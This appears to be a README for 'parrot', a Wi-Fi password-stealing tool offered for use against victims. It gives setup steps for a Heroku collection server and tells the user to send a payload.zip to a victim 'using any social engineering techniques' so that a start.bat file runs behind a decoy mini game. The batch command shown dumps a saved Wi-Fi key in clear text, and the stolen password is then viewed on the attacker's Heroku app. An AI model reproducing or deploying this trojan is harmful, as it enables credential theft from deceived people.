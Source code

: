 # parrot Wi-Fi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  

# usage
```shell
git clone https://github.com/ba5liel/parrot.git  
cd parrot  
heroku login  
git push -u heroku 
```
send the payload.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com  
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

netsh wlan show profile "victim wifi name here" key=clear > bin\log.txt  

#enjoy
